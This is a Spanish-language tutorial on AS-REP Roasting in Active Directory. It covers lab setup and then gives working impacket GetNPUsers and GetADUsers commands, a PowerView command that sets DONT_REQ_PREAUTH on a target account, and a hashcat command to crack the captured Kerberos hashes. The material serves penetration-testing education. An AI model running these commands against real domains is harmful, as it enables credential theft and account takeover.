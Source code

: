 # AS-REP Roast

# ¿Cómo surge un AS-REP ROAST?

---

La vulnerabilidad **ASREPRoast** ocurre cuando algún usuario del dominio tiene habilitado el atributo `DONT_REQ_PREAUTH` , este atributo permite que cualquiera pueda generar una respuesta `KRB_AS_REP` sin necesidad de realizar la autenticación previa que se realiza en el primer (`KRB_AS_REQ`) paso Kerberos.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

En una respuesta `KRB_AS_REP` el **KDC** responde al usuario con el ticket **TGT** y **una clave de sesión cifrada** con la contraseña de dicho usuario, esta sesión es lo que necesitamos para crackearla offline con herramientas como **Jhon The Ripper** o **Hashcat**.

# Preparación de entorno vulnerable

---

Para causar la vulnerabilidad tenemos que habilitar el `DONT_REQ_PREAUTH` a algún usuario del dominio.

Nos dirigirnos a ***Administrador del Servidor > Herramientas > Usuarios y equipos de Active Directory*** y en el menú lateral izquierdo buscamos la carpeta llamada ***Usuarios***.

![Untitled](images/Untitled%201.png)

Luego damos click derecho en el usuario al que queremos hacer vulnerable y nos vamos a ***Propiedades***.

![Untitled](images/Untitled%202.png)

Y vamos a la pestaña ***Cuenta***, en ***Opciones de cuenta*** marcamos ***No pedir la autenticación Kerberos previa*** y aplicamos los cambios.

![Untitled](images/Untitled%203.png)

Con estos pasos este usuario ya sería vulnerable a ASREP-Roast

# Explotación

---

### 1. Sin Credenciales Válidas

En caso de que no tuvieramos credenciales para encontrar los usuaros que tengan el atributo `DONT_REQ_PREAUTH` habilitado podemos usar un diccionario de posibles usuarios - https://github.com/attackdebris/kerberos_enum_userlists - y con herramientas como **`*GetNPUsers*`** de la suite de **`*impacket*`** podemos empezar a probar los usuarios para encontrar aquellos tengan.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -dc-ip IP_DC -usersfile NOMBRE_ARCHIVO_USUARIO.txt
	-no-pass -format hashcat
```

Ejemplo de uso:

![Untitled](images/64db9d8e-03b9-4dd2-af3c-78c5608f2114.png)

### 2. Con Credenciales Válidas

En caso de tener credenciales previamente adquiridas usaremos la herramienta **`*GetADUsers*`** de **`*impacket*`** para enumerar los usuarios del dominio.

```bash
impacket-GetADUsers NOMBRE_DOMINIO/USUARIO:CONTRASEÑA -all -dc-ip IP_DC
```

Ejemplo de uso:

![Untitled](images/Untitled%204.png)

Con esto deberíamos obtener todos los usuarios del dominio los cuales guardaremos en un archivo de texto para una vez más usar la herramienta **`*GetNPUsers*`** de **`*impacket*`** para obtener los usuarios con el atributo `DONT_REQ_PREAUTH` habilitado.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -userfile NOMBRE_ARCHIVO_USUARIO.txt -dc-ip IP_DC -format hashcat
```

Ejemplo de uso:

![Untitled](images/Untitled%205.png)

# ¿Qué pasa si no hay usuarios con el `DONT_REQ_PREAUTH` habilitado?

---

Si no hay usuarios dentro del dominio con el atributo `DONT_REQ_PREAUTH` habilitado pero, nuestro tuvieramos un usuario con permisos de `GenericWrite`, `GenericAll` o similares sobre otro usuario podríamos con:

```bash
Set-DomainObject -Identity USERNAME -XOR @{useraccountcontrol=4194304} -Verbose
```

o 

```bash
Set-DomainObject -Identity USERNAME -XOR @{useraccountcontrol=0x00400000} -Verbose
```

habilitarle el privilegio `DONT_REQ_PREAUTH` a un usuario.

> NOTA: **4194304** o **0x00400000** es el bitmark de la politica que indica que dicho permiso está activo.
> 

# Crackeo de los hashes encontrados

---

Para crackear los hashes obtenidos guardamos los hashes en un archivo y, en este caso, usamos **`*hashcat*`** para crackear el hash.

```bash
hashcat -a 0 -m 18200 ARCHIVO_HASH DICCIONARIO -O
```

Sustituiremos ***ARCHIVOS_HASH*** con la ruta del archivo donde se encuentran los hashes y ***DICCIONARIO*** con la ruta hacia el diccionario de contraseñas que quieras usar para crackear los hashes